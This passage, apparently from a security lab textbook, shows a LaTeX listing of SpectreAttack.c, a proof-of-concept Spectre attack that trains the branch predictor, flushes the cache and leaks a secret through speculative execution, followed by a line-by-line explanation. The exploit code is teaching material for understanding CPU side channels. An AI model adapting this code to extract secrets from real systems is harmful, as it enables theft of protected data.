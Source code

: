 \begin{lstlisting}[caption=\texttt{SpectreAttack.c}, label=spectre:list:spectreattack]
#define DELTA 1024

unsigned int buffer_size = 10;
uint8_t buffer[10] = {0,1,2,3,4,5,6,7,8,9};
uint8_t temp = 0;
char *secret = "Some Secret Value";     (*@\ding{192}@*)
uint8_t array[256*4096];

// Sandbox Function 
uint8_t restrictedAccess(size_t x) 
{
  if (x < buffer_size) {         
     return buffer[x];           
  } else {
     return 0;
  }
}

void spectreAttack(size_t larger_x) 
{
  int i;
  uint8_t s;

  // Train the CPU to take the true branch inside restrictedAccess().
  for (i = 0; i < 10; i++) { restrictedAccess(i); }

  // Flush buffer_size and array[] from the cache.
  _mm_clflush(&buffer_size);           
  for (i = 0; i < 256; i++)  { _mm_clflush(&array[i*4096 + DELTA]); }

  // Ask restrictedAccess() to return the secret in out-of-order execution.
  s = restrictedAccess(larger_x);                      (*@\ding{193}@*)
  array[s*4096 + DELTA] += 88;                         (*@\ding{194}@*)         
}

int main()
{
  flushSideChannel();   
  size_t larger_x = (size_t)(secret - (char*)buffer);  (*@\ding{195}@*)
  spectreAttack(larger_x);
  reloadSideChannel(); 
  return (0);
}
\end{lstlisting}


Most of the code is the same as that in Listing~\ref{spectre:list:outoforder}, so
we will not repeat their explanation here. The most important part is 
in Lines , , and . Line 
calculates the offset of the secret from the beginning of the buffer~(we assume that 
the address of the secret is known to the attacker; in real attacks, there are many ways for 
attackers to figure out the address, including guessing).
The offset, which is definitely larger than 10, is fed into the \texttt{restrictedAccess()} 
function. Because we have trained the CPU to take the true-branch inside
\texttt{restrictedAccess()}, the CPU will return \texttt{buffer[larger\_x]}, which contains
the value of the secret, in the out-of-order execution. 
The secret value then causes its corresponding element in \texttt{array[]} to
be loaded into cache. All these steps will eventually be reverted, so 
from outside, only zero is returned from \texttt{restrictedAccess()}, not the value of the secret.
However, the cache is not cleaned, and \texttt{array[s*4096 + DELTA]} is still kept in
the cache. Now, we just need to use the side-channel technique to figure out which element of the
\texttt{array[]} is in the cache.  


